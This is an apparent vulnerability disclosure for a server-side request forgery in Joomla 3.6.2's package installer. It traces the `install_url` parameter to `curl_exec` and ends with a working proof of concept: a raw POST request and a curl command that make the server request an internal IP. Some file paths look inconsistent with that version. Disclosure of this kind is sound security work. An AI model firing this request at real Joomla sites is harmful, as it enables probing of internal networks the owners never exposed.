

# SSRF vulnerability in `_getPackageFromUrl` Function of `install.php` File (Joomla 3.6.2 version)

## 0x01 Affected version

vendor: https://github.com/joomla/joomla-cms

version: 3.6.2

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `_getPackageFromUrl` function of Joomla 3.6.2 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `install_url` parameter. We should note that the vulnerability requires authentication before it can be triggered.


The vulnerable code is located in the `_getPackageFromUrl()` function in the `administrator/components/com_installer/models/install.php` file. This function is called in the file `system/public/class/web/file.php`. Because the function does not perform sufficient checksumming on the `install_url` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` at the file `libraries/src/Http/Transport/CurlTransport.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `install_url` parameter, eventually leading to an SSRF vulnerability.


Function call stack information related to the SSRF vulnerability.

```php
administrator/components/com_installer/models/install.php $package = $this->_getPackageFromUrl();

administrator/components/com_installer/models/install.php $p_file = JInstallerHelper::downloadPackage($url);

libraries/src/Installer/InstallerHelper.php downloadPackage

libraries/src/Http/Http.php get

libraries/src/Http/Transport/CurlTransport.php $options[CURLOPT_URL] = (string) $uri;

$content = curl_exec($ch); // the key code
```


Code for the location of the tainted inflow

file path: `administrator/components/com_installer/models/install.php`

```PHP
	protected function _getPackageFromUrl()
	{
		$input = JFactory::getApplication()->input;

		// Get the URL of the package to install.
		$url = $input->getString('install_url');
    ...
		// Download the package at the URL given.
		$p_file = JInstallerHelper::downloadPackage($url);
    ...
  }
    
```


The location of the code that ultimately triggers the vulnerability

file path:`libraries/src/Http/Transport/CurlTransport.php`

```PHP
	public function request($method, Uri $uri, $data = null, array $headers = null, $timeout = null, $userAgent = null)
	{
		// Setup the cURL handle.
		$ch = curl_init();
    
		$options = array();
    ...
		// Set the cURL options.
		curl_setopt_array($ch, $options);

		// Execute the request and close the connection.
		$content = curl_exec($ch);
    ...
  }
    
```


Because the `install_url` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:


```
POST /joomla/administrator/index.php?option=com_installer&view=install HTTP/1.1
Host: 172.16.119.147
Content-Length: 1103
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1
Origin: http://172.16.119.147
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_installer 
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: phpbb3_2gfmo_u=2; phpbb3_2gfmo_k=ihvyjpdjg636ce09; phpbb3_2gfmo_sid=6b0b29691a714915fc5fc32e9eac4f59; phpbb3_f3tlt_u=2; phpbb3_f3tlt_k=b4060b6e677d8bcc; phpbb3_f3tlt_sid=fb30c1894184e7a1d238c8b28a2e86f7; my_wikiUserName=Admin; my_wiki_session=jattk79nu3qve3ktikp16lr66s4bngt7; f80d7dddb61ce9ba3aee0802f4d1b376=ghd4ggm02o5g9c6fnnqdfrunmf; 54e7d701daf706e028b5135c2ab6049b=04l38uemrl4jht6f1mti2p40f3 
Connection: close

install_package=&max_upload_size=2097152&return=&return=99341813a8ce4b141b765ffbf23b0148&install_directory=/var/www/html/joomla/tmp&install_url=http%3A%2F%2F172.16.119.1%2Ffuzz&installtype=url&task=install.install&99341813a8ce4b141b765ffbf23b0148=1
```

Examples of triggered vulnerabilities



You can also use the following curl command to verify the vulnerability. (Note that you need to update the cookie information for authentication.)

```
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.147' -H $'Content-Length: 1103' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://172.16.119.147' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylWcDD3rp8TQrKOBi' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_installer&view=install' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=femqhcdhgcnkouua0957s2o8co' \
    --data-binary $'------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_package\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"max_upload_size\"\x0d\x0a\x0d\x0a2097152\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"return\"\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"return\"\x0d\x0a\x0d\x0a54cb1544eb9dff9afa7a32034fff39d2\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_directory\"\x0d\x0a\x0d\x0a/var/www/html/joomla/tmp\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_url\"\x0d\x0a\x0d\x0ahttp://172.16.119.1/fuzz\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"installtype\"\x0d\x0a\x0d\x0aurl\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"task\"\x0d\x0a\x0d\x0ainstall.install\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"54cb1544eb9dff9afa7a32034fff39d2\"\x0d\x0a\x0d\x0a1\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi--\x0d\x0a' \
    $'http://172.16.119.147/joomla/administrator/index.php?option=com_installer&view=install'
```


## 0x03 Acknowledgement

z3

